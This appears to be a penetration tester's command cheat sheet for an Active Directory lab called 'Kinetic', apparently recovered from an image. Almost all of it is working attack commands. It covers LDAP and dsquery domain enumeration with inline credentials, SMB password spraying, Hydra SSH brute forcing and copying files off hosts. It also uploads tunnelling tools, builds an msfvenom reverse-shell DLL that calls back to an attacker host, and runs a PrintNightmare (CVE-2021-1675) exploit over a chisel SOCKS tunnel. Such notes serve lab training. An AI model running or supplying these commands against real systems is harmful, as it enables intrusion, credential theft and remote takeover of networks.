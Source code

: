 ```

dsquery.exe group -name "
*admin*
"

dsquery * "CN=System,DC=KINETIC,DC=CORP" -filter "(objectClass=trustedDomain)" -attr trustPartner flatName

## ldapsearch

ldapsearch -H ldap://10.65.1.20 -x -s base

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W "(objectclass=computer)"

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W "(objectclass=user)"

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W "(objectclass=group)" cn member

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W

ldapsearch -H ldap://10.65.1.20 -x -b 'DC=kinetic,DC=corp' -D pAsW0rd -W > kinetic.ldap

cat kinetic.ldap |grep "objectClass:"
```
 # |K|i|n|e|t|i|c| |l|a|b| |c|o|m|m|a|n|d|s|  
# +-+-+-+-+-+-+-+ +-+-+-+ +-+-+-+-+-+-+-+-+  
## Uplink to Pulsar  
crackmapexec smb ./kinetic-targets.txt -u cyn -p xxxx --shares  
python3 smbclient.py cyn@agentspecial  
spray smb uplink ./uplink2.txt /usr/share/john/password.lst 4000 0  
hydra -t 8 -L ./uplink1.txt -P /usr/share/john/password.lst uplink ssh  
scp hammer@uplink:C:/Users/zombie/Desktop/RDP-Access.txt /opt/kinetic/RDP-Access.txt  
scp hammer@uplink:C:/Users/zombie/Desktop/Spire-Talent-memo.pdf /opt/kinetic/Spire-Talent-memo2.pdf  
ssh pulsar/andross@uplink  
scp /opt/kinetic/SharpView.exe pulsar\\andross@uplink:C:/Users/andross/Desktop/SharpView.exe  
SharpView.exe Get-DomainController  
SharpView.exe Get-NetComputer  
powershell  
ls [\\](file:///\\dcpulsar\pipe\spoolss)dcpulsar\pipe\spoolss  
scp /opt/kinetic/chisel.exe pulsar\\andross@uplink:C:/Users/andross/Desktop/chisel.exe  
scp /usr/share/windows-binaries/nc.exe pulsar\\andross@uplink:C:/Users/andross/Desktop/nc.exe  
msfvenom -f dll -p windows/x64/shell_reverse_tcp LPORT=4442 LHOST=10.65.3.90 -o e.dll  
python3 smbclient.py pulsar/andross@uplink  
chisel server --host xxx -p 5447 --socks5 --reverse  
.\chisel.exe client xxx:5447 R:2600:socks  
nc.exe -lvp 4442  
proxychains -q python3 CVE-2021-1675.py 'PULSAR.CORP/andross:darkstar@10.65.10.92' '[\\](file:///\\10.65.10.90\share\e.dll)10.65.10.90\share\e.dll'
 